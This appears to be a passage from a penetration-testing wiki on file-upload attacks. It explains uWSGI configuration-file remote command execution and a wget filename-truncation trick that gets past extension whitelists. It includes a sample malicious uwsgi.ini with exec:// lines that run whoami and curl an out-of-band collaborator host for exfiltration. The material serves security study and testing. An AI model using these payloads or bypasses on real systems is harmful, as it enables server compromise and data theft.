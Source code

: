 
## **uWSGI RCE**

For a detailed exploration of this vulnerability check the original research: [uWSGI RCE Exploitation](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html).

Remote Command Execution (RCE) vulnerabilities can be exploited in uWSGI servers if one has the capability to modify the `.ini` configuration file. uWSGI configuration files leverage a specific syntax to incorporate "magic" variables, placeholders, and operators. Notably, the '@' operator, utilized as `@(filename)`, is designed to include the contents of a file. Among the various supported schemes in uWSGI, the "exec" scheme is particularly potent, allowing the reading of data from a process's standard output. This feature can be manipulated for nefarious purposes such as Remote Command Execution or Arbitrary File Write/Read when a `.ini` configuration file is processed.

Consider the following example of a harmful `uwsgi.ini` file, showcasing various schemes:

```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; curl to exfil via collaborator
extra = @(exec://curl http://collaborator-unique-host.oastify.com)
; call a function returning a char *
characters = @(call://uwsgi_func)
```

The execution of the payload occurs during the parsing of the configuration file. For the configuration to be activated and parsed, the uWSGI process must either be restarted (potentially after a crash or due to a Denial of Service attack) or the file must be set to auto-reload. The auto-reload feature, if enabled, reloads the file at specified intervals upon detecting changes.

It's crucial to understand the lax nature of uWSGI's configuration file parsing. Specifically, the discussed payload can be inserted into a binary file (such as an image or PDF), further broadening the scope of potential exploitation.

## **wget File Upload/SSRF Trick**

In some occasions you may find that a server is using **`wget`** to **download files** and you can **indicate** the **URL**. In these cases, the code may be checking that the extension of the downloaded files is inside a whitelist to assure that only allowed files are going to be downloaded. However, **this check can be bypassed.**\
The **maximum** length of a **filename** in **linux** is **255**, however, **wget** truncate the filenames to **236** characters. You can **download a file called "A"\*232+".php"+".gif"**, this filename will **bypass** the **check** (as in this example **".gif"** is a **valid** extension) but `wget` will **rename** the file to **"A"\*232+".php"**.
